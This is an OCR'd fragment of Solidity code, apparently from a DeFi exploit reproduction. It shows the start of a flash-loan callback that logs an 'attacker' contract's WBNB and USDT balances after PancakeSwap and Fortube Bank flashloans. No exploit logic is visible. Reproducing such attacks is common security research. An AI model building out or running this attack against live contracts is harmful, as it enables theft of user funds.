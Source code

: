│ Code:                                                                                                                                                                                                                                                │
│     function executeOperation(                                                                                                                                                                                                                       │
│         address token,                                                                                                                                                                                                                               │
│         uint256 amount,                                                                                                                                                                                                                              │
│         uint256 fee,                                                                                                                                                                                                                                 │
│         bytes calldata params                                                                                                                                                                                                                        │
│     ) public {                                                                                                                                                                                                                                       │
│         uint256 usdtBalance = IERC20(USDT).balanceOf(address(this));                                                                                                                                                                                 │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "After all PCS flashloans, attacker WBNB balance:",                                                                                                                                                                                      │
│             IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                   │
│             IERC20(WBNB).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "After Fortube Bank flashloan, USDT balance of attacker:",                                                                                                                                                                               │
│             usdtBalance,                                                                                                                                                                                                                             │
│             IERC20(USDT).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │